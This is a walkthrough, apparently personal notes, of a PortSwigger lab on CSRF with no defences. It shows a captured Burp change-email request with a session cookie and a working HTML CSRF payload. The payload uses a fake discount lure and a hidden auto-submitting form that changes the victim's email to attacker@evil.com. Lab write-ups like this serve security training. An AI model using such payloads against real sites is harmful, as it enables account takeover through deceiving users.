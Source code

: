 ## CSRF vulnerability with no defenses

This lab's email change functionality is vulnerable to CSRF.
### Objective
	1. Craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.
	2. Hint: You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit, make sure you use a different email address for the final exploit you deliver to the victim.

### Credentials
	1.Username: wiener
	2.Password: peter

### Access the Lab:

 ```Copy
https://portswigger.net/web-security/learning-paths/csrf/csrf-how-to-construct-a-csrf-attack/csrf/lab-no-defenses#
```

## Step by step walkthrough of Lab

	1.We get a website with a page like this:
	
![[CSRF-01.png]]

	2.As we know the vulnerability lies in the update email function lets go directly to My account.

![[CSRF-02.png]]

	3.We have a login screen here lets use the default creds given to us.

![[CSRF-03.png]]
	4.Here whatever email we provide it will get changed if the session cookie is verified,lets check the burp request after requesting for an email change.


```Burp
POST /my-account/change-email HTTP/1.1
Host: 0a76007e047e4d3980ee0dd000150096.web-security-academy.net
Cookie: session=O5pjwIZh3kRuMmDnlREn568LPORTJgWw
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a76007e047e4d3980ee0dd000150096.web-security-academy.net/my-account?id=wiener
Content-Type: application/x-www-form-urlencoded
Content-Length: 24
Origin: https://0a76007e047e4d3980ee0dd000150096.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: close

email=0mni@deuss.space
```

	5.Here we can see that the website is sending email as a POST request in body for changing the Email of that particular authenticated user.
	
![[CSRF-04.png]]
	6.Now Lets go to the exploit server.
![[CSRF-05.png]]
	7. Here everything is already set what we need to do is set the body parameter in such a way that when the user clicks on the crafted email it gets opened in their browser and the email changes to the attackers email.
```HTML
<html>
  <body>
    <h1>Limited Time Offer!</h1>
    <p>Click below to claim your exclusive discount!</p>
    
    <form id="csrfForm" action="https://0a3f009403a2207d8037031b00d60047.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="attacker@evil.com"/>
    </form>
    
    <script>
      // Auto-submit the form immediately
      document.getElementById('csrfForm').submit();
      
      // Optional: Show a fake loading screen to make it seem more legitimate
      setTimeout(function() {
        document.body.innerHTML = '<h1>Processing your request...</h1><p>Please wait while we apply your discount.</p>';
      }, 100);
    </script>
  </body>
</html>
```
	8.The above code snippet is what i have engineered to do the following:
		1.Excite the user by social engineering(Here i have used discount coupon)
		2.A Form submission using POST request to the site.
		3.Make the Form submission hidden using type='hidden'
		4.provide name=email for the POST element(Check burp req).
		5.value=attacker@evil.com(The email we want to use to change for victim).
		6.Auto submit form using javascript.
		7.Showing a "Processing your request" fake discount processing.


